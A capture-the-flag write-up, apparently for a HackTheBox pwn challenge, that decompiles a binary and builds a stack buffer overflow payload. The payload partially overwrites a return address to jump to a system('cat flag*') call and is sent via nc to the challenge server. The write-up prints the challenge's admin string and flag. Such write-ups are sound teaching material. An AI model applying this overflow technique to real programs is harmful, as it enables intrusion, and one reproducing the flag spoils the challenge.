# Going Deeper

## First Look

![Going Deeper Application Prompt](images/going-deeper.png)

We are faced with a banner and a menu prompt.  Select (1) to disable the safety mechanisms or (2) to attempt to login.  We want to get in, so why even talk about (3)?  A follow up prompt is

## Analyzing the Program

We start by opening the program in Ghidra and utilizing its analysis in an attempt to get a basic understanding of the program.  Starting with the function in the symbol tree, we immediately see some possibly useful names (highlighted in the below image).

![Ghidra Symbol Tree - Highlighted: admin panel, banner, main, read_num, setup](images/symbol-tree.png)

Let's start with main of course.  We will use Ghidra's approximated decompilation where it's useful.

```c
undefined8 main(void)
{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Simple.  Setup and banner are not interesting, so let's go to the admin_panel.

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 != 0xdeadbeef) || (param_2 != 0x1337c0de)) || (param_3 != 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
      goto LAB_00400b38;
    }
  }
  printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
  system("cat flag*");
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Scanning through the code, we see our initial menu option being read into `local_10`, followed by some control flow logic to determine which selection was made.  Finally, we get to provide our second input, which is read into `local_38` and compared against a particular string value.

```c
read(0,local_38,0x39);
...
iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
```

As a side note, it looks like menu options 2 and 3 both fall to the same call to `read()`.

## Next Steps

Let's take stock of what we know.

- We read 0x39 (57) bytes into `local_38` and compared 0x34 (52) bytes of it against the string `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` with a length of 51 plus a null byte.

  - A quick check on the declation of `local_38` reveals that only 40 bytes were allocated!!  Looks like a likely candidate for a stack buffer overflow:

```c
    char local_38 [40];
```

- At first glance, it looks like we can just paste in the secret string, but we are disappointed to find that the call to `read()` happily gobbles our newline character.

  - I won't go into detail, but I'll provide a second payload later that uses a null byte to skip the need for the buffer overflow we're seeing hints of.

## Crafting a payload

Let's start with the classic payload of As.  As we observed, we can provide up to 57 bytes on our second prompt, so let's see what happens.  I'm admittedly not the best with gdb yet, so I'll put my payload in a file for each file redirection:

`echo -n 1AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >payload`

Note the 1 at the start is for our initial menu selection.

Set our breakpoint:

![gdb output with breakpoint set at 0x400abf](images/breakpoint.png)

Let's take a look at our stack after reading in the payload:

![gdb stack output after payload is read](images/first-payload-stack.png)

Wait...

I only count 27 As.  There should be 57, but we seem to be short by 30.  What happened?  

## Going... Deeper

If we look back at our code for the `admin_panel` function, we notice that our menu option is read in using a function called `read_num()`.  Now, I'm not familiar with every function call in libc, but this is one I'm not familiar with.  Let's take a look:

```c
void read_num(void)
{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  read(0,&local_28,0x1f);
  strtoul((char *)&local_28,(char **)0x0,0);
  return;
}
```

Aha!  The function includes another call to `read()` with 0x1f (31) bytes.  Only the valid digits at the start of the data are kept by strtoul and the rest are just discard.  So `read_num()` read our 1 and thirty of our As, that latter of which just got ignored.

Let's update our payload to have 30 more characters in it and see what happens.

`echo -n '1BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' >payload`

Stack output from gdb:

![gdb stack output after second payload is read. Byte 0x7fffffffe3c9 is underlined.](images/second-payload-stack.png)

No sign of any of the 30 Bs we added to the payload, and we can see all 57 As!  Notice the underlined byte.  This is the final byte of the return address for `admin_panel`! (I leave it to the reader as a basic buffer overflow exercise to verify that this is the function's return address)

Some inspection of the program's address space reveals that most of our program code falls between `0x400b00` and `0x400bff`.  Crucially, the call to print the flag is here:

```c
0x400b12 <admin_panel+297>:  lea    rdi,[rip+0xaa5]        # 0x4015be
0x400b19 <admin_panel+304>:  call   0x400700 <system@plt>
```

It looks like we can modify out payload to have 0x12 as our final byte and print our flag.  Let's try.

`echo -ne '1BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x12' >payload`

Run our program with the payload against the challenge docker:

`nc 159.65.58.144 30131 <payload`

![pip payload into netcat, get flag!](images/flag.png)

And there you have it!

`HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}`
